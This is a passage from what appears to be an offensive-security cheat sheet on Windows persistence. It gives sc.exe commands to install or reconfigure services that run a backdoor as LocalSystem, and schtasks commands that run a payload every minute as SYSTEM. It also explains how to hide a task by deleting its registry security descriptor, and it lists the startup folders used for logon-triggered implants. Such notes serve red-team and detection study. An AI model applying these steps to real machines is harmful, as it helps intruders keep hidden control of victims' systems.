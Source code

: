 After transfering the backdoor executable to the victim's machine, create a malicious service:

```powershell
sc.exe create <SERVICE_NAME> binPath= "<PATH_TO_EXE>" start= auto
sc.exe start <SERVICE_NAME>
```

### 4.2. Modifying existing service
Any disabled service is a good candidate to be modified without the user noticing it. The generation of a malicious executable is shown in the previous paragraph.

```powershell
# List of all services
sc.exe query state=all

# Reconfigure service to run a malicious binary
sc.exe config <SERVICE_NAME> binPath= "<PATH_TO_EXE>" start= auto obj= "LocalSystem"

# It might be necessary to start the service
sc.exe start <SERVICE_NAME>
```

## 5. Scheduled tasks
The task scheduler allows for control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or trigger when specific system events occur.

```powershell
# Run the command every single minute (with SYSTEM privileges)
schtasks /create /sc minute /mo 1 /tn <TASK_NAME> /tr "<COMMAND_PAYLOAD>" /ru SYSTEM

# Check if task created successfully
schtasks /query /tn <TASK_NAME>
```

An attacker can make a scheduled task invisible by deleting its _Security Descriptor_ (SD). If a user is not allowed to query a scheduled task, he won't be able to see it anymore. Deleting the SD disallows ALL users to access the scheduled task.

```powershell
# Run regedit as SYSTEM
PsExec64.exe -s -i regedit
```

Remove `SD` item from the `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\<TASK_NAME>` location.

## 6. Logon triggered

### 6.1. Startup folder
Each user has a special folder (`C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`) where an attacker can put a executable and it will be run whenever the user logs in. There is also a common folder for all users (`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`).
